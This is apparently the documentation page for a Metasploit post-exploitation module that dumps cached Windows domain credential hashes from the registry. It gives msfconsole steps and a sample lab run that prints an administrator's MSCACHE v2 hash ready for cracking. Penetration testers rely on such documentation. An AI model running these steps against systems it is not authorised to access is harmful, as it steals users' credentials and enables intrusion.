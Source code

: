 ## Vulnerable Application

This module uses the registry to extract the stored domain hashes that have been cached as a result of a GPO setting. The default setting on Windows is to store the last ten successful logins.

## Verification Steps
  1. Start msfconsole
  2. Get meterpreter session
  3. Do: ```use post/windows/gather/cachedump```
  4. Do: ```set SESSION <session id>```
  6. Do: ```run```

## Options

  ***
  SESSION
  ***
  The session to run this module on.


## Scenarios

### A run on Windows 7 (6.1 Build 7601, Service Pack 1).

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.6:49184) at 2019-12-11 12:51:59 -0700

  msf > use post/windows/gather/cachedump
  msf post(windows/gather/cachedump) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/cachedump) > run

    [*] Executing module against TEST-PC
    [*] Cached Credentials Setting: 10 - (Max is 50 and 0 disables, and 10 is default)
    [*] Obtaining boot key...
    [*] Obtaining Lsa key...
    [*] Vista or above system
    [*] Obtaining NL$KM...
    [*] Dumping cached credentials...
    [*] Hash are in MSCACHE_VISTA format. (mscash2)
    [+] MSCACHE v2 saved in: /root/.msf4/loot/20191211134214_default_192.168.1.6_mscache2.creds_626325.txt
    [*] John the Ripper format:
    # mscash2
    administrator:$DCC2$10240#administrator#89f253291a4b53a41c94057d644cbd1d::

    [*] Post module execution completed
  ```
